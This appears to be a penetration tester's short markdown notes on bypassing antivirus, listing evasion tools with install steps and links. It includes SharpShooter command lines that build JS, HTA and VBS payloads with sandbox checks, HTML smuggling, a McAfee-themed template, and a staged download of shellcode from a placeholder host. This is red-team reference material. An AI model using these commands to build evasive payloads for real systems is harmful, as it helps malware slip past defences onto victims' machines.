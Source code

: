 ```yaml
---
title: Bypassing AV
updated: 2023-08-02 01:54:34Z
created: 2019-11-27 16:06:06Z
---
```


## Veil Framework:

Install on Kali: 
- apt install veil
- /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

## Shellter

Source: https://www.shellterproject.com/download/

- apt install shellter


## Sharpshooter

Javascript Payload Stageless: 
- SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

- SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

- SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter

## Donut: 

Source: https://github.com/TheWover/donut

## Vulcan

Source: https://github.com/praetorian-code/vulcan


## Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

sudo apt install golang

go get github.com/fatih/color
go get github.com/yeka/zip
go get github.com/josephspurrier/goversioninfo

go build ScareCrow.go

./ScareCrow

# Resources: 

- https://book.hacktricks.xyz/windows-hardening/av-bypass
- https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates
-

